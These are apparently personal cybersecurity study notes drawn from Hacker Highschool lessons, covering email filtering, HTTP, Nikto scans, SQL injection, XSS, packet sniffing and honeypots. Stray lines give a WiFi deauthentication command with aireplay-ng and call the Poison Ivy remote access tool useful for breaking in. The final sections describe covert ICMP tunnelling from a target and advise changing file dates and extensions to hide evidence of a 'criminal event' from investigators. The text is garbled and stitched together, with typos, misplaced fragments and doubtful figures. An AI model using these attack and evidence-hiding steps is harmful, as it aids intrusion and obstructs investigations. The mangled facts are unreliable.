   textblock with a header that tells a GPG-capable email client it has
   just received an encrypted message. 

   After receiving an encrypted mail, an email client will access your
   private key (possibly via password) and decrypt the message.

   If a encrypted message was not encrypted with your public key, any
   decryption with your key will fail.

   If the encrypted message was signed by the sender, the GPG plugin
   will use the corresponding public key to verify that signature.

   GPG plugins alert you to problems with signatures or attachments.

   GPG is not easy to implement in a webmail environment, this also
   implies to trust the third party tool you're using, since a MIM can
   exist.
   
   expiration doesn't stop the keys from working.

   To another person: aireplay-ng -0 0 -a (MAC AP) -c (TARGET) -x 150 (device in
   monitor mode).

   Email Server-Side Vulnerabilities and Threats

   Bandwidth Eating

   The ability to inspect email traffic (outbound and especially
   inbound) is needed on an email server, as well as filtering bad
   emails will save bandwidth and CPI server processing. Fail to do
   this will be a possibly infected and slow server.
   
   One technique consist on eliminate an email after a certain amount
   of time, this prevents deleting of email traffic that the user
   might be expecting.

   In a mail server, any user with admin privileges should not read or
   send any email, those privileges are only used for internal network maintenance

   Email Server Threats:

   Large web email cleints like Gmail or Microsoft use DomainKeys
   Identified Mail (DKIM) as a cryptographic email signature program
   for security.

   DKIM wraps a cryptographic signature around an email that verifies
   the domain name that the message was sent through. DKIM helps
   filter out spoofed messages from legitimate ones.

   DKIM test messages carry a problem, any person could send a falh
   that it is testing DKIM in messages. Some recipiens will accept
   DKIM messages in testing mode when the messages should be trated as
   if they were not DKIM signed.

   Also, DKIM signature key is small, so it could be cracked and
   discovered by a hacker. This information then be used for spoof or
   send malware using the user's discovered email key and address.
   
   DKIM is designed to act as a "trust" verification tool for
   email. The system uses public-key cryptography, like PGP. With
   proper use, an email can be traced back to its original sender
   through a domain verification process. This is called non-repudiation.

   In non-repudiation the information provided cannot be changed, the
   information is not refutable. This is important when dealing with contracts.

   WpsSyns is to enter network by several PINs and MAC addresses. (for android)

   A simple but often missed email security method is scanning of all email
   attachments. Scanning needs to be performed on all data packets, compressed
   files, unknown file types, split files, files that can do the splits, files
   that spit, meta data, files with URLs, and pretty much every type
   of file.

   One should  use Data Loss Prevention (DLP).

   Keyword filtering is a type of application layer filtering that lets
   you block all messages containing particular keywords or phrases that commonly
   appear in spam. Other forms of email filtering include:

   Address Blocking: blocks mail from particular IP addresses, email addresses or
   domain of known spammers.

   Bayesian Filtering: "intelligent" software that can analyze spam messages and
   learn to recognize other messages as spam using heuristics (patterns of
   behavior).

   Blacklisting: List of known spammers' addresses can be shared, so each user
   doesn't have to develop a list from scratch. THese lists are available from
   several providers, and are highly valuable for address blocking.

   Whitelisting: Instead of specifying which senders should be blocked, specifies
   which senders wshould be allowed. Again, these lists are used as part of
   address blocking.

   Greylisting: Temporarily blocks email from unknown
   sources. Legitimate email will be re-transmitted, but spam usually
   won't.

   Challenge/Response filtering: replies to email from senders not on a "trusted
   senders" list with a challenge, usually involving solving a task that is easy
   for humans but difficult for automated bots or scripts.

   There are open-souce or payed applications that do filtering.

** Android Hacking
  
   You need a PC, you have to first, open ports

** Fundamentals of Web Security

   TCP mission is to deliver packets of date from one source to a destinationl


   The web seem pretty simple: you get onto the Internet, open a
   browser, type in a website URL, and the page appears. But the
   devil's in the details, and some of them can hurt you.

   For standards of the web and history, visit http://www.w3.org. These
   standards and definitions might teach you how to be sage. But the
   people who want to hurt you don't follow standards or laws.

   1. You open your browser.
     
   2. You type in the Uniform Resource Locator (URL) into the browser's
      address line (the website address, like ISECOM.org; also called
      URI for Uniform Resource Indicators.

   3. The website URL is saved in the browser's history on the hard
      disk. There's a record of every page, as cache.

   4. Your computer asks your default Domain Name Server (DNS) to look
      up the IP address of the website. The DNS connects the name
      www.ISECOM.ORG to the IP address of 216.92.116.13. Use ping for
      this.

   5. Your computer connects to the website's server, at the IP address
      it was given by the DNS, to TCP port 80 for "http://" websites,
      or TCP port 443 if you go to an "https://" secure web site. If
      you use https:// there are more steps like getting server
      certificates that we won't cover in this example.

   6. Your computer request the page you ask for (like index.html), or
      if you specify a folder the web server sends a default page,
      usually index.html. It's the server that decides this default
      file, not your browser.

   7. Your IP address, the web page you are visiting and details about
      your browser are likely to be stored on the web server and/or
      proxy servers in between.

   8. The requested we page is stored in the browsers cache. 

   9. Most web pages contain other elements, pictures, ads, style
      sheets, Javascript. All these elements are retrieved by the web
      server and sended to the client.

   10. The browser shows you what it has stored on your browser's
       cache. There's a difference between "perceived speed" and
       "actual speed". This is the difference between how fast
       something is downloaded (actual) and how fast your browser and
       computer can render the page and graphics to show them to you
       (perceived). Just because you didn't see web page elements
       doesn't mean it didn't end up in your browser's cache.

       The Web is a massive client-server network. Clients are typical
       users who run web browsers to display or capture Internet
       data. Servers are web servers, such a Internet Information
       Server (ISS) on Windows or Apache on Unix/linux. So the browser
       asks for a page, and the web server returns content in the form
       of Hyper Text Markup Language (HTML) pages.

       Standard HTML pages are transferred using Hyper Text Transfer
       Protocol (HTTP). It's a simple text-based system for connecting
       to a server, making a request and getting an answer. This means
       that we also can connect easily to a server using command line
       tools like telner and netcat, and get information about what
       software is running on a specific server. Look at what you get
       when you run this simple two-line command:

       netcat isecom.org 80

       HEAD / HTTP/1.0

       HTTP/1.1 200 OK 
       Date: Wed, 29 Deb 2019 23:25:54 GMT
       Server: Apache/2.2.22
       Last-Modified: Tue, 07 Deb 2019 18:41:18 GMT
       ETag: "3dad-4b8641fe2280"
       Accept-Ranges: bytes
       ContentLength: 15789
       Identity: The Institute for Security and Open Methodologies
       P3P: NOt supported at this time
       Connection: close
       Content-Type: text/html

       Every web server and version will return different information
       at this request - an IIS server will return the following:

       netcat www.microsoft.com 80

       HEAD / HTTP/1.0
      
       HTTP/1.1 200 OK
       Connection:close
       Date: .......... GMT
       Server: Microsoft-IIS/6.0
       P3P: CP="ALL IND DSP COR ADM CONo CUR CUSo IVAo IVDo PSA PSD
       TAI TELo OUR SAMo CNT COM INT NAV ONL PHY PRE PUR UNI"
       X-Powered-By: ASP.NET
       X-AspNet-Version: 1.1.4322
       Cache-Control: public, max-age=9057
       Expires: ....... GMT
       Last-Modified: ..... GMT
       Content-Type: text/html
       Content-Lenght: 12934
       
   Getting More Details:
 
   You can take this further and obtain more information by using the
   "OPTIONS" modifier in the HTTP request:

   netcat isecom.org 80
   OPTIONS / HTTP/1.0

   This gives you all of the HTTP commands (or "methods") to which the
   server will respond in a specific directory (in this case "/", the
   root directory of the web server or "document root").


   Notice that HTTP is completelty in the clear"; everyone can see what
   you're browsing for. 

   Secure Searching

   Nikto is a Perl script that carries out various tests
   automatically. It runs a scan and provides a detailed report:

   ./nikto.pl -host www.hackerhighSchool.org

   Almost every one of nikto's lines represent a possible vulnerability
   or exploitable code. Using various options you can fine tune nikto
   to do exactly what you need, including stealth scans, mutation and
   cookie detection.

   Finding a vulnerability is all well and good but what you do with
   that information is a whole different story. Security professionals
   will take the scan results of their own web server and patch,
   update, remove, repair or do whatever they need to do in order to
   close each vulnerability. 

   One can use several databases
   (http://mire.org/work/cibersecurity.html) that collect and catalog
   every known vulnerability you could imagine.

   These databases, "Common Weakness Enumeration (CWE)" and "Common
   Vulnerabilities and Exposures (CVE)" are simple to operate. These
   systems are a collection of other tools and data with a search
   engine built into each datatabase. Each data repository is focused
   on different aspects of hardware, software, services, system
   configurations, and compliance requirements.

   Looking at the results nikto gave us earlier, you can see near the
   bottom of the log are the letters OSVDB followed by a bunch of
   numbers. OSVDB stands for the Open Source Vulnerability Database
   located at OSVDB.org. In the log results from nikto the numbers
   after OSVDB identify a specific type of vulnerability.

   HTTP in plain text isn't good for security, if the file is
   'retrieved' it can be seen fully, one should always add encryption.

   This encryption is added using SSL/TLS (or simply SSL), a
   cryptographic suite encompassing secure ciphers implementing 40 to
   128 bit (or mode) symmetric key encryption methods.

   40 bit is weaker than 128 bit. The stronger the key algorithm of
   use, the longer it will take to encrypt and decrypt.

   an open source version is available called "OpenSSL" and can be
   found at openssl.org. It works alongside Transport Layer Security to
   provide an entire library of cryptographic recipes. OpenSSL is a
   command line tool with many options to work with. 

   For known HTTPS attacks there are more complex approaches using
   something called a known cyphertext attack. This involver
   calculating the encryption key by analyzing a large number of
   messages (over a million) to deduce the key. Along with cyphertext,
   you will find multiple attack methods that are discovered everyday.

   You shouldn't rush to try and crack 128 bit encryption. Since SSL
   just encrypts standard HTTP traffic, if we set up an *SSL tunnel*, we
   can query the server just as we did earlier. Creating an SSL tunnel
   is a snap, especially since there are utilities like openssl and
   stunnel made just for the job.

   SSL is designed around trust. The browsers contain certificates,
   really long numbers that serve as keys. These is a way to check if
   the server is of trust.

   The theory is that if the domain name matches the SSL certificate
   of the server as the domain that we visited then it's
   trustworthy. But a criminal could infiltrate certificate authorities
   and got keys to fake their own server certificates that your browser
   then tells you that are trustworthy.

   ISECOM researched trust, and discovered 10 main properties, there
   are 10 things that need to be evaluated to have logical trust:

   - Size :: The number of subjects the trust extends to.

   - Transparency :: The level of visibility of all operational parts
                     and processes of the subject and its environment.

   - Symmetry of trust :: The vector (direction) of the trust.

   - Subjucation :: The amount of influence of compromise or corruption
                    of the subject.

   - Consistency :: A historical evidence of compromise or corruption
                    of the subject.

   - Integrity :: The amount and timely notice of change within the target.

   - Offsets :: These are offsets of sufficient assurance, the
		compensation paid to the source or punishment for the
		subject when the trust is broken. It's a valued placed
		on the trust with the target.

   - Value of reward :: The financial offset for risk is the amount
	of win ot gain for the source where the potential gain for
	giving trust to the subject is sufficient to offset the risk
	of breach of trust.

   - Components :: This is the number of elements which currently
                   provide resources which the subject relies on either
                   directly or indirectly.

   - Porosity :: This is the amount of separation between the subject
                 and the external environment.

   Our parent organization ISECOM pioneered the field of trust
   analysis: the study of reasons we trust - and which reasons are
   actually good ones.

   A proxy server (or just proxy) is a middleman in the HTTP
   transaction process:

   - The client (your browser) sends its request to the proxy

   - The proxy stops and holds your request, then sends its own request
     to the web server

   - The web server (which doesn't even know  who you really are)
     responds to the proxy

   - The proxy relays the response back to the client, completing the
     transaction.

   A proxy can be a server on your own network that lets you pass your
   connection through it. This is handy because it gives you some
   protection, since the proxy hides your identity and acts as a
   firewall between you and the rest of the web. But you can also use a
   proxy server that's our on the Internet, which hides you even better
   (on-line you can find many lists of publicly available proxy, such
   as http://tols.rosinstrument.com/proxy/). These external proxy
   servers provide critical access to the outside world for people in
   countries that censor or cut off their ISP's connections to the
   Internet.

   But, as you might have figured by now, proxy servers are vulnerable
   to attack themselves, and can become jumping-off points for
   launching attacks on other servers. Not to mention that you may be
   going through one and not even be aware of it - which means it's
   recording everything you do. This is something you especially want
   to consider if you use a free public proxy server. There is
   absolutely no guarantee the owner of that proxy is honest and will
   not use your username/password or credit card details. 

   You can run a proxy server right on your local computer. IT won't
   change your souce IP address (because its address is the same as
   yours), but it can prevent caching and filter our undesirable
   content.

   *Privoxy*

   The Onion Router, or TOR, was created to hide your IP address - many
   times over. When you use the TOR network, your traffic gets
   encrypted and passed along through a tangle of routers, and
   eventually emerges .. somewhere. But in theory your traffic can't be
   traced back to you. In theory. In reality, some things - like using
   Flash on Tor - has given unsuspecting users bad surprises.

   Technically, you could set up TOR yourself, which involves some
   interesting configuration. We recommend it for the learning
   experience. However, most of us mere mortals will appreciate the TOR
   Browser, which has all the defaults set for safety, and lets you do
   all that interesting research in a separate browser.

   old-school coding in languages like C++ meant hours of deep coding,
   then compiling binaries, machine-language instructions that run very
   quickly. If you want raw horsepower, and have a swhole lot of time
   on your hands, this is the world for you.

   The rest of us will use scripting languages to write scripts,
   programs written in plain text that are interpreted at runtime by
   binaries (that you don't have to write) underneath. They don't run
   as fast as freestanding binaries, but with the very fast processors
   we have today, you may never notice the difference.

   Scripting languages are great for dynamic web pages, but they also
   create a new avenue of attack for hackers. Most web applications
   vulnerabilities aren't caused by bugs in any particular language,
   but by bad coding and poor web server configuration. For example, if
   a form requests a zip code but the user enters "abcde", the
   application should return them to the form and point out the
   error. This is called input validation. Here are some of the most
   common scripting platforms today:

   Common Gateway Interface (CGI): This is the granddaddy of scripting
   interfaces, and it's not really a language itself; it's a way to run
   scripts. Perl was one of the most popular scripting languages to
   write CGI programs in the early days, though it's not used much for
   web pages anymore. Perl is, however, very useful for hackers, and
   many handy tools are written in this language.

   PHP: PHP is a very popular open-source scripting language that runs
   on the server before the page is sent to the user. THe web server
   uses PHP to get data from databases, respond to user choises and
   build a dynamic page with the information the visitor wants. HTML
   displays static content; PHP lets you create pages that give the
   user dynamic, customized content based on their input. Web pages that
   contain PHP scripting usually have a file name ending in ".php".

   Python: Another popular language, Python is a competitor to PHP, and
   does many of the same things. Many web sites use both PHP and Python
   (as well as other languages), including Google.com, Yahoo.com and
   Amazon.com. Python scripts usually have the file extension .py. In
   the world of security, you ought to know as much as you can about at
   least one language. The flavor used today for security pros is
   Python.

   Active Server Pages (ASP): Web pages that have a .asp or .aspx
   extension (ASPs) are database-driven and dynamically generated just
   like PHP or Python pages. ASP was Microsoft's first server-side
   scripting engine for the web. Its popular successor, ASP.NET, is
   built on the Common Language Runtime (CLR), allowing programmers to
   write code using any supported .NET language, such as: C# VB.NET,
   Jscript.NET, etc. 

   Java Server Pages (JSP): It's a technology that helps software
   developers create dynamically generated web pages. JSP is similar to
   PHP, but it uses the Java programming language. To deploy and run,
   a compatible web server with a servlet contained (such as Apache
   Tomcat) is required.

   Coldfusion and Ruby have their own cult followings, and there are
   dozend less-well-known languages that can do very interesting
   things.

   Javascript: Javascript (NOT the same thing as Java,
   runs on more web pages than any language besides
   HTML. It's different form the scripting languages above, because it
   doesn't run on the server to generate a page. Instead, it runs in
   your browser after the page arrives. This gives you visual effect
   like fly-out menus, expandable and collapsible sections of pages
   and "live" interaction with the page. Practically every dynamic page
   uses Javascript somewhere, and it's the front line of defense for
   validating the information people submit via forms. However, note
   that client-side input validation only is not enough to guarantee
   protection agains attack targetting dynamic web applications
   parameters. One example of ways to abuse client-side scripting is to
   pull up a web page, fill in the form, and capture it with a
   specialized proxy. The proxy lets you rewrite the code in the
   returned page and send it back using bogus values. You could also do
   this by "saving" the web page, editing the code, then sending it
   back using netcat. Or you could simply disable Javascript in your
   browser, using either built-in controls or add-ons.

   Web Vulnerabilities:

   Giving someone what they ask for is simple; selling them something
   is a lot less simple. Online stores, companies selling products,
   bloggers selling ideas and personality, or newspapers selling news -
   all require more than just HTML-encoded tet and pictures. Dynamic
   web sites that market products based on your preferences, show you
   alternatives, recommend other options, up-sell add-ons and make sure
   you pay for what you get require complex software. Ther's no longer
   static web sites, they're web applications. When we say goodbye to
   web sites and hello to web appliciatoins, we enter a whole new world
   of security issues.

   We mentioned earlier "complexity breeds insecurity". Now we are
   going to look at the true meaning behind that mantra. When the
   automobile was first invented, it was nothing more than a wheel, one
   simple wheel. Some folks thought that the wheel was just fine but
   other people wanted to improve on that wheel. These early hackers
   began to add omre wheels together attached with an axle and a
   frame. Others added seats to the frame and still more added a fancy
   horn or installed a horse as the engine. As time went on, this
   simple wheel automobile slowly took shape into a fast multi-horse
   drwan carriage. Luckily, someon added a brake brfore too many other
   got hurt. Today, we have airbags, seat belts, V-8 engines, and
   really great sound systems in our cards without having to smell
   horse dung all the time.

   The Internet's evolutino has progressed in a similar fashion. People
   weren't happy staring at a green isplay screen so they added a color
   monitor. THe old dreary ASCII text became flashing lights and splash
   colors with midi sounds giving way to 3-D surround sound. Each new
   upgrade to the Internet added an ew level complexity, another layer
   of vulnerabilities to consider.

   SQL Injection:

   A SQL Injection isn't so much as an attack agains a web site but
   rather an attack to gain access to databases behind the website. THe
   primary purpose of a SQL Injection is to bypass the webpages. An
   attacker will want to gain either super user privileges to the
   databases associated with the web site or get the web page to dump
   database information into the attacker's hands.

   SQL is the basic building block ofr databases. SQL commands will
   perform whatever task it is asked, including giving up passwords,
   credit card numbers, and so forth. All the attacker is doindg is
   adding rogue SQL code (injecting) to any open form field on a web
   page.

   For example, a web page asks a user if they would like to sign up
   for a monthly newsletter. THe page will have open field fo the user
   to enter their name, email address, and whatever else the web
   builder wants. Each open field allows a user to input text, which is
   then stored in a database. A SQL injection simply requires an
   attacker to input SQL commands into the open fields. If the open
   fields are not protected (parsed) against allowing such commands,
   the attacker can easily type a requesti nto an open field for a
   password list.

   Here is an example of such a SQL request that has been slightly
   sanitized for your protection.
  
   <?php
   $query  = "SELECT '1', concat (uname||'-'||passwd) as name,
   '1971-01-01', '0' from usertable;
   WHERE size = '$size'";
   $result = odbc_exec($conn, $query);
  
   ?>

   SQL injections are the most popular form of attack vectors. THis
   attack can be rendered useless by correctly filtering SQL escape
   characters in user input fields or building your web site without
   using SQL. Don't forget about the URL field, that's a user input
   field too! Not to mention HTTP headers, cookies and more.

   Buffer Overflows:

   Think of a buffer as a smal cup. THis buffer cup holds a certain
   amount of data and will spill if too much data is added. When the
   buffer cup overflows, because someone ior something tried to add too
   much data, the system behaves strangely. Then a system behaves
   strangely, other weird things can happen. A buffer overflow is an
   attack (or accident) where too much data is forced into a buffer
   that was only built for a certain amount or type of data.

   When we look to the same open fields used in SQL injections, we can
   insert massive amounts of givverish into fields that were designed
   to handle 25 characters. What happens when we add 1 million
   characters th that same field? The web page goes a little crazy and
   can provide an entry point to an attacker.

   Buffer overflows can be avoided by limiting the amount of acceptable
   data to each open field an ensuring rogue code/commands can't be run
   inside these user input fields.

   Cross Site Scripting (XSS):

   Our first two vulnerabilities were direct attacks against a
   server. XSS is a client side vulnerability that exploits a useir's
   trust to gain access into the web servers the client is looking
   at. A good example of this type of attack is when an attacker hitch
   hikes on a users browser while that user is logged in to a security
   site, such as a bank. The attackers preys on the users established
   trust between the user and the bank to gain access.

   The attacker has vaious methods to piggy-back on users
   browsers. Some attackers will establish a Phishing web site or
   created web site that look identical to none the user would vitsit
   Since few people pay any attention to the URL ield in their browser,
   it is fairly common for an attacker to lure a victim into allowing
   malware to be installed in their browser. Email is the preferred
   method to install malware since humans are, well, human.
  
** To read

   The 4-Hour Workweek: Escape 9-5, Live Anywhere, and Join the New Rich

   Tech Interview Handbook github
  
   Free Programming books github (ebook foundation)

   Free for dev (ripienaar)

   You don't need (you don't need)

   zdnet.com (cybersecurity)

   Surveillance

   Techrepublic.com/resources

** Cybersecurity Tips

   Knowing where to look and what to look for is only part of the security
   battle. Networks are constantly being surveyed, analyzed, poked and prodded.
   If the network you are protecting isn't being watched then you aren't using
   the right tools to detect that behavior. If the network you're craking isn't
   being watched, you may (may) get away with scanning it. As a cyber secrity
   expert, you should know every inch of the systems you are protecting - or
   testing. You need to know where the weaknesses are and where the strength are
   as well, regardless of which side you're on.

   Simply gathering up intelligence on a server, such as the operating system
   and open ports, isn't enough these days. An Advanced Persistent Threat will
   try to learn as much about your network as it can. This information
   includes - 

   - Firewall brand, model, firmware version, and software patches that exists

   - Remote connections authentication, access privileges, and processes.

   - Other servers that connect to the network, this includes Email HTML,
     back-up, redundant, off-site, hired or out-sourced services, and even
     contractors that may have used your network or are using it now.

   - Printers, fac machines, photocopiers, wireless routers, and network
     connections in your company waiting room.

   Even though we have covered many topics in this lesson, system identification
   covers an even broader area. There is quite a bit of information that flows
   through networks that identify parts of each device. Each device on the
   network can be exploited and thus used as an entry point for an attacker.
   Approaching this daunting challenge requires more than just software.
   Research your own equipment and learn as much as you can. That knowledge will
   pay off.

   OPN (without password) and WEB (low encryption) is easy hacking

   WPA is very hard to hack, there are three types of attacks

   The common vulnerabilities and exposures database from mitre is
   http://cve.mitre.org

   Another page to visit is http://exploit-db.com

   A Remote Access Toolkit is Poison Ivi, It's very useful for troubleshooting,
   training and breaking into a computer from a distance.

   Sniffing packets is not as simple as plugging your computer into the network
   and capturing traffic. It's often more difficult to decide where to place the
   sniffer than it is to analyze the traffic. The main devices that handle
   network traffic do so differently, so you have to be aware of the network's
   physical setup. So, how do you collect traffic from the network?
  
   First, if you're going to have to collect everyone's traffic, on a wired
   Ethernet network you'll need a mirror port or a trunk port on a switch.
   Otherwise, on a switched network, the only traffic you'll see is a broadcast
   traffic and your own. But be very clear: WiFi is not switched networking.
   WiFi functions like a hub: you can see everyone's packets.
  
   If you're attached to a mirror port or have put your WiFi card into
   promiscuous mode, a packet sniffer applicatoin can monitor network traffic on
   all computers on the network.

   A packet sniffing program is designed to capture the traffic packets that
   move along the network. You get to ckeck out the packet content and make some
   determinations about the validity of the packet. In Linux/Mac/Unix, the
   natice *tcpdump* command can capture traffic, ave it to a file, look for
   search strings and a lot more. WHen you're dealing with automated processess
   (come on, you're a hacker, you want to automate everything), using tcpdump at
   the command line is the way to go.

   The eXif.er, just a web based exif editor. A page when we can see the
   metadata of a image.

   Full-on GUI tools like Wireshark are often called network protocol analyzers.
   They let you capture an interactively browse the traffic running on a
   computer network. Wireshard is the de facto (and often de jure [by law])
   standard across many industies and educational institutions. 

   To find anomalies on your network when you might be under attack, you'll have
   to know what daily normal network activity looks like. With your network
   operating smoothly, you can baseline your activities. Deviations from this
   baseline mean something is amiss.

   NetworkMiner is a good alternative as wireshark

   Now that you can see network traffic, you have to figure out what it all
   means. Wireshark provides a number of charts that are valuable in
   establishing what normal network traffic looks like. There are a lot of
   different statistics to consult: click on the Statistics field in the menu
   bar at the top of the screen.
  
   These statistics are compilations of data Wireshark observer. Conversations
   and endpoints identify sources of significant amounts of traffuc. This tells
   you what the traffic flow of your network should look like. Some items you
   might consider looking at include ARP or ICMP packets. Large numbers of such
   packets might suggest a problem.

   Basic global statistics are available in the summary window such as:

   - Capture file properties 
   - Capture time
   - Capture filter information
   - Display filter information

   Protocol Hierarchy:

   The protocol hierarchy shows a dissection by OSI layer of the displayed data.
  
   Conversations:
  
   If you use a TCP/IP application or protocol, you should find four active tabs
   for Ethernet, IP, TCP and UDP conversations. A "conversation" represents the
   traffic between two hosts. The number in the tab after the protocol indicate
   the number of conversations, for example "Ethernet:6".

   Ethernet Conversations, IP conversations and TCP conversations.
  
   As you review this information from your computer, which programs might be
   involved in these conversations, iin light of information from the lesson on
   Ports and Protocols?

   The Endpoints provide statiistics about received and transmitted data on a
   per machine basis. The number after the protocol indicates the number of
   endpoints. For instance: "Ethernet:6".
   
   Intrusion Detection Systems:

   You've probably realized that, to use a packet sniffer to detect unauthorized
   activity in real time, you'll have to sit at your computer, watching the
   output of the packet sniffer and desperately hoping to see some kind of
   pattern. An intrusion detection system (IDS) does this job for you. IDSs
   combine the ability to record network activity with sets of rules that allow
   them to flag unauthorized activity and generate real-time warnings.

   Honeypots and Honeynets:

   A honeypot is a computer system or virtual machine that serves no other
   purpose than to lure in hackers. A honeynet is a network of honeypots. In a
   honeypot, there are no authorized users - no real data is stored in the
   system, no real work is performed on it - so, eery access, every attempt to
   use it, can be identified as unauthorized. Instead of sifting through logs to
   identify intrusions, the system administrator knows that every access is an
   intrusion, so a large part of the work is already done.

   Types of Honeypots:

   There are two types of honeypots: production and research.

   Production honeypots are used primarily as warning systems. A production
   honeypot identifies an intrusion and generates an alarm. They can show you
   that an intruder has identified the system or network as an object of
   interest, but not much else. For example, if you wanted to know if bears
   lived near your clearing, you might set out ten tiny pots of honey. If you
   checked them in the morning and found one or more of them empty, then you
   would know that bears had been in the vicinity, but you wouldn't know
   anything else.

   Research honeypots are used to collect information about hacker's activities.
   A research honeypot lures in hackers and then keeps them occupied while it
   quietly record their actions. For example, if - instead of simply documenting
   their presence - you wanted to study the bears then you might set out one
   big, tasty, sticy pot of honey in the middle of your clearing, but then you
   would surround that pot with movie cameras, still cameras, tape recorders and
   research assistants with clipboards and pith helmets.

   The two types of honeypots differ primarily in their complexity. You can more
   easily set up and maintain a production honeypot because of its simplicity
   and the limited amount of information that you hope to collect. In a
   production honeypt, you just want to know that you've been hit; you don't
   care so much whether the hackers stay around. However, in a research
   honeypot, you want the hackers to stay, so that you can see what they are
   doing. This makes setting up and maintaining a research honeypot is is more
   difficult. You must make the system look like a real, working system that
   offers files or services that the hackers find interesting. A bear who knows
   what a honeypot looks like might spend a minute looking at an empty pot, but
   only a full pot full of tasty honey is going to keep the bear hanging around
   long enough for you to study it.

   Honeynets are harder yet; they have to have what appears to be real, live
   traffic on them.

   Building a Honeypot:

   In the most basic sense, a honeypot is nothing more than a computer system
   that is set up with the expectation that it will be compromised by intruders.
   Essentially, this means that if you connect a computer with an insecure
   operating system to the internet, then let it sit there, waiting to be
   compromised, you have created a honeypot. But this isn't a very useful
   honeypot. Its more like leaving your honey out in the clearing, then going
   home to the city. When you come back, the honey will be gone, but you won't
   know anything about who, how, when or why. You don't learn anything from your
   honeypot, unless you have some way of gathering information regarding it. To
   be useful, even the most basic honeypot must have some type of intrusion
   detection system.

   The intrusion detection system could be as simple as a firewall. Normally a
   firewall is used to prevent unauthorized users from accessing a computer
   system, but they also log everything that passes through or is stopped.
   Reviewing the logs produced by the firewall can provide basic information
   about attempts to access the honeypot.

   More complex honeypots might add hardware, such as switches, routers or hubs
   to frther monitor or control network access. They ay also se packet sniffers
   to gather additional information about network traffic.

   Research honeypots may also run programs that simulate normal use, making it
   appear that the honeypot is actually being accessed by authorized users and
   teasing potential intruders with falsified emails, passwords and data. These
   types of programs can also be used to disguise operating systems, making it
   appear, for example, that a Linux based computer is running Windows.

   An improperly configured honeypot can easily be turned into a launching pad
   for additional attacks. If a hacker compromises your honeypot, then promptly
   launches an assault on a large corporation or uses your honeypot to
   distribute a flood of spam, there's a goo change that you will be identifies
   as the one responsible.

   Correctly configured honeypots control network traffic going into and out of
   the computer. A simple production honeypot might allow incoming traffic
   through the firewall, but stop all outgoing traffic. This is a simple,
   effective solution, but intruders will quickly realize it is not a real,
   working computer system. A slightly more complex honeypot might allow some
   outgoing traffic, but not all.

   Research honeypots - which want to keep the intruders interested as long as
   possible - someties use manglers, which audit outgoing traffic and disarm
   potentially dangerois data by modifying it so that it is ineffective.

   www.sicherheitstacho.eu has set up live feeds  of cyber attacks as they
   happen. THe data is based off 180 sensors (honeypots) located around the
   world. The site shows who is attacking who, the amount of data in the attack
   (DDoS), and is updated every few seconds.

   Acrylic WIFI is also a option to analize networks.
   
   When you scan a port, you are really sending a TCP SYN request (Layer 4) to
   see if that port responds. A proper ping uses ICMP, which doesn't use ports.
   Although ICMP rests on top of the Internet Protocol (IP), it is not a layer
   four protocol. This comes in very handy when we get into the firewall and
   network traffic logging.

   Firewalls operate at several levels of the OSI model, restricting or allowing
   data flow based on the criteria that is given. The higher the stack layer,
   the deeper the firewall can inspect the contents of each packet request. At
   the lower layers, the firewall can still intercept and control data movement
   but it doesn't know as uch about the data as it does at the ihgher layers.
   This is where ICMP packets become fun ways to deliver content.

   The technique is known as "ICMP Tunneling." Before we can do much with this
   covert communication, we need some software tools.

	- Wireshark
	- Hping

	  ICMP packets have plenty of room after the header to store data roughly 41k
	  per packer). The idea here is to handcraft ICMP packets loaded with your
	  data and send them through a covert ICMP tunnel to the location you want.
	  You can generate ICMP packets using hping or nping (from nmap people) and
	  insert your payload at the same time. With these ping tools, you can
	  customize the Ethernet header, the IP header and the payloads.

	  Search for: How ICMP tunnel works?

	  There are two sides to a tunnel: the sever side and the client side. 

	  You would need to get the server-side code onto your target, and run it, for
	  this to work. How could you get that code onto a target?.

	  Once both o these daemons are running host to host, the server will begin
	  sniffing for ICMP packets. You will be sending commands through the tunnel to
	  the server using ping and the server will respond in turn with ping packets.
	  The server daemon will begin collecting your packets and placing the data
	  where you have instructed. If the data flow is large, the server will
	  establish additional multiple pings. The client side daemon will receive
	  transmission updates through the same type of sniffer used on the server.

	  With portable drives having ever-higher capacity and smaller sizes,
	  physically hiding large amounts of data is straightforward; put the media in
	  a safe place away from your house and your computer. 

	  before you even think about places to hide your treasure, encrypt the media,
	  the data, or both first. Try TrueCrypt.

	  If you have small amounts of data, like passwords, private keys, or a secret
	  recipe for soup, you can slip that data into places that will not be noticed.
	  Don't go so far as trying to hide data in your DNA.

	  Malware creators have long known that there is storage space on Window
	  systems in the Master Boot Record (MBR). It's not much space but enough to
	  hide a private key or a DLL. 

	  Swap files are places in media drive that is temporary RAM. The swap file
	  space allows the computer to run faster even if it runs out of RAM to execute
	  programs. UNIX and Linux set aside a permanent block of media for swap storage. Even if the computer is turned off, this hard drive swap file space can still contain data from previous events.

	  Windows swap files (page files) can get quite large and hold pieces of recent
	  files. This could be even more dangerous if you were connected to a windows
	  based server.

	  Windows servers store a significant amount of user data that can be handy to
	  the forensic examiner. Take a look at "te p" directories for the swap files.

	  Files are stored in clusters. Depending on the operating system, the clusters
	  can vary in size. If you created a file on your computer, that file only need
	  50% of the cluster's space. This leaves a cluster with open space left. This
	  open space within a cluster is called file slack or just slack for short. If
	  you delete a file that was in that partial cluster space, that space is still
	  available even if the file was deleted.

	  The 50% cluster space that was previously occupied with a file, will keep
	  that data intact. These data remnants remain in the cluster until it is
	  filled with other data. Windows automatically creates slac space as soon as
	  any file is created, viewed, odified, or saved.

	  Some of the best places to hide data is to hide it in plain sight. File
	  modification is just a fancy way of changing the name of a file, altering the
	  extension of files, or changing the file attributes. by now, you should
	  already know how to change the name of a file.

	  You mde a file "Evil Plans" easrlier, now let's get creative. Would you put
	  all your passwords in a file and name that file "Passwords?" No, of course
	  not. Nor should you pit all of your work files that can be easily identifies.

	  When looking to modified files, look at file extensions. File compression is
	  an easy say to cover tracks and save space, however, those files will be the
	  first one the agents will be checking. So, you will need to alter the file
	  extension. This can be accomplished by editing the last three characters of
	  the file name.

	  Changin a .doc file to a .gid is as simple as changing an .odt file to a
	  .avi. Creating the altered files can become tricy and time consuming. Look at
	  file sies, created dates, and modified dates to give you ideas of how to
	  customize each file. An .odt file should not be a gigabyte in size, as well
	  as an .avi file should not be a few kilobytes either.

	  An .avi file should be several gigabytes in size.

	  Look at the file dates too. The files that were created or accessed within a
	  week of the criminal event and after the event should ring a bell in your
	  head. Alter those dates to any day at least a year before your hack. If you
	  really want to have some fun, change the dates to impossible dates, such as
	  30 February or 21 March 2112. 

	  Making Data irrecoverable:

